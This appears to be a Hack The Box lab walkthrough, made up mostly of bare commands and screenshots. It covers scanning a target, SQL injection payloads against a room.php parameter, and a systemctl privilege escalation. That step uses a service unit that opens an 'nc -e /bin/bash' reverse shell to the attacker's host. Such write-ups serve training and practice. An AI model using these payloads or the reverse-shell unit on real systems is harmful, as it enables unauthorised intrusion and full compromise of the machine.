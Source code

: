 ```
SQL injection
Webshell
sudo -l
Reverse Shell - Bash
LinEnum
PrivEsc - systemctl
```

```
nmap -sS -sC -sV -T5 -Pn 10.10.10.143
```
![image](https://user-images.githubusercontent.com/33616880/231966154-8ab1d289-572e-4097-8072-e2a664de70ca.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.143/FUZZ -fc 403 -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/231966267-6a6058e9-6223-44d8-acd9-72244a55407f.png)


```
http://10.10.10.143/room.php?cod=2
```
![image](https://user-images.githubusercontent.com/33616880/231967239-40ac1ae1-c35f-4c56-9740-62bd236b9436.png)


```
http://10.10.10.143/room.php?cod=2%20and%201=1
```
![image](https://github.com/regarmulia/HTB/assets/33616880/954aab73-ed1c-419c-8120-3785d666d6ad)

![image](https://user-images.githubusercontent.com/33616880/231967993-6a81e947-d988-4e23-9042-a8ba3eb2bca0.png)

```
https://book.hacktricks.xyz/pentesting-web/sql-injection
http://10.10.10.143/room.php?cod=2%20and%20sleep(1)
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ddf2a7c4-21db-4f02-b720-c395f310f43d)

![image](https://github.com/regarmulia/HTB/assets/33616880/3d1f65d6-d527-4714-96fd-937e21ca143e)


```
http://10.10.10.143/room.php?cod=2%20UNION%20SELECT%201,2,3,4,5,6
```
![image](https://github.com/regarmulia/HTB/assets/33616880/e3378196-1f96-4498-80f3-f98126a10cb9)


```
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%20@@version,2,3,4,5,6,7
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d80371a3-ed4b-47d9-affa-b27701b9a6e0)













```
wget 10.10.14.8/LinEnum.sh
./LinEnum.sh
```
![image](https://user-images.githubusercontent.com/33616880/231979671-3ca30d26-3d40-412d-9cca-28b91cfaf839.png)
![image](https://user-images.githubusercontent.com/33616880/231979698-96af9d79-761b-4c32-a848-0c182173242e.png)


https://gtfobins.github.io/gtfobins/systemctl/
```
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.8 443'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target
```
```
systemctl link /home/pepper/pwn.service
systemctl start pwn
```
![image](https://user-images.githubusercontent.com/33616880/231983233-c91e3200-561c-4995-8062-6cec3de97037.png)
![image](https://user-images.githubusercontent.com/33616880/231983256-1099084a-99c6-4477-a764-4c9530724f65.png)



